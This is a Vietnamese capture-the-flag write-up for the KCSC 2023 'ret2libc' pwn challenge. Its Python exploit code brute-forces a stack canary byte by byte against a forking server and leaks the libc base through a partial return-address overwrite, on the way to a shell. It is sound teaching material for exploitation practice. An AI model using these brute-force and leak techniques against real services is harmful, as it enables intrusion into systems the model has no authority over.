




# KCSC_CTF_2023 - ret2libc

# 1. Phân tích 


Ở bài này chỉ cho ta 1 file libc và không cho ta file binary

Chạy chương trình:



Ở đây ta thấy chương trình sẽ lặp đi lặp lại nhiều lần và ta có thể thấy lỗi `*** stack smashing detected ***: terminated`

# 2. Khai thác

- Bước 1: Leak canary

Ở đây ta có vòng lặp vô tận nên mình sẽ lợi dụng điều này để brute force `canary`

```
i=0
p.recvuntil(b">")
canary = b"\x00"
while(1):
    payload = cyclic(0x28) + canary + bytes([i])
    p.send(payload)
    print(payload)
    a = p.recvuntil(b">")
    print(a)
    if (len(a) > 10):
        hi=0
    else :
        print("Not detected")
        canary += bytes([i])
        i = 0

    if(len(canary) == 8):
        canary =  u64(canary)
        print("[+]Canary:", hex(canary))
        break
    i+=1
```

Ở đây mình chỉ sử dụng `p.send(payload)` thay vì `p.sendline(payload)` để loại bỏ ký tự `0xa` khi gửi `payload`

Nếu không có dòng chữ `*** stack smashing detected ***: terminated` xuất hiện thì ta đã đoán đúng byte đó của `canary`

-> Ghép các bytes đó lại và ta sẽ bypass được `canary` 

- Bước 2: Leak libc

```
libcc = b"\x90"
for i in range(0xf):
    payload = cyclic(0x28) + p64(canary) + p64(0) + libcc + p8((i << 4) + 0xd)
    print(payload)
    p.send(payload)
    if b'Segmentation fault' not in p.recvuntil(b'> '):
        libcc += p8((i << 4) + 0xd)
        break

i=0
while(1):
    payload = cyclic(0x28) + p64(canary) + p64(0) + libcc + bytes([i])
    p.send(payload)
    print(payload)
    a = p.recvuntil(b">")
    if (b"Segmentation fault" in a): 
        i+=1
    else :
        print("Not detected")
        libcc += bytes([i])
        i = 0
        print(libcc)

    if(len(libcc) == 8):
        libc.address =  u64(libcc) - 0x0000000000029d90
        print("[+]Libc_base:", hex(libc.address))
        break
```

Ok tiếp đến mình sẽ làm tương tự như leak `canary` vì khi ta ghi đè `saved_rip` với 1 giá trị sai thì chương trình sẽ chạy lỗi và in ra chuỗi `Segmentation fault`

Ok nhưng tại sao chương chình bị lỗi `Segmentation fault` cũng như `*** stack smashing detected ***: terminated` mà vẫn chạy tiếp?

Mình có tìm hiểu và thấy được `fork()` dùng để tạo quá trình con (child process)

```
Trong hệ điều hành, quá trình con (child process) là một quá trình mới được tạo ra bởi một quá trình hiện tại, được gọi là quá trình cha (parent process). Khi một quá trình cha gọi hàm fork(), hệ điều hành sẽ tạo một bản sao của quá trình cha và trả về giá trị khác 0 cho quá trình cha (thường là ID của quá trình con) và giá trị 0 cho quá trình con. Quá trình con là một quá trình hoạt động độc lập, có cùng mã chương trình với quá trình cha, nhưng có không gian bộ nhớ và tài nguyên riêng.
```

Khi quá trình con bị hỏng, chương trình vẫn còn quá trình cha (parent process) để có thể quay lại vòng lặp, đó là lý do mà tại sao chương chình bị lỗi `Segmentation fault` cũng như `*** stack smashing detected ***: terminated` mà vẫn chạy tiếp.

Ok vậy return addr của quá trình con sẽ là `__libc_start_call_main+128` như bao chương trình khác khi nó quay lại main.

Do đã được cung cấp phiên bản libc rồi nên ta có thể tìm được địa chỉ hàm bằng câu lệnh sau: `nm -D libc.so.6 | grep "__libc_start_call_main"`



Ở đây mình chỉ tìm được `__libc_start_main` nên mình đã dạo 1 vòng github với từ khóa `__libc_start_call_main+128 libc.so.6` và có thể tìm được đa phần offset đến libc_base là `0x29d90`

Ok sau khi đã brute force được địa chỉ hàm `__libc_start_call_main+128` thì mình sẽ tình được `libc_base` và từ đó tạo được chuỗi gadget để lấy shell của chương trình.

* Lưu ý:

Do 3 bytes cuỗi của hàm `__libc_start_call_main+128` là `0xd90` nên ta không cần brute force byte `0x90` đầu tiên cũng như chỉ cần brute force 15 lần ở bytes thứ 2. Nếu ta không làm như vậy, có nhưng địa chỉ khác mà khác với `0xd90` chương trình vẫn tiếp tục thực thi mà không bị lỗi `Segmentation fault` và ta không kiểm soát được `libc_base` do không có file binary ở đây.

